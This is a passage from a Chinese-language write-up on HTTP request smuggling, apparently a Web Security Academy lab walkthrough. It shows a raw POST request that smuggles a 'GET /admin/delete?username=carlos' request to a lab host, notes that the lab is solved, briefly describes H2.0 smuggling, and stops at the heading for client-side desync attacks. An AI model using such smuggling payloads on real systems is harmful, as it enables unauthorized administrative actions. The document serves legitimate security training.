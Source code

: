 ```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

[![](assets/1705301772-bf5035a4d62feae56fd51c9989633e70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182738-8a43d4f2-b2c7-1.png)  
[![](assets/1705301772-7c916b4a20ded981621fba3aaa472805.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182746-8efcf514-b2c7-1.png)  
完成解题：  
[![](assets/1705301772-11de6f90d3cc6197300c76acdd6c7f38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182758-961d2dc8-b2c7-1.png)

## H2.0 走私

如果后端服务器忽略已降级请求的 Content-Length 标头，则将 HTTP/2 请求降级为 HTTP/1 的网站可能容易受到等效的"H2.0"问题的攻击，这里不再赘述，有兴趣的可以看之前的《HTTP/2 请求走私深入刨析》和《请求走私一篇通》进行了解

## CSD 攻击
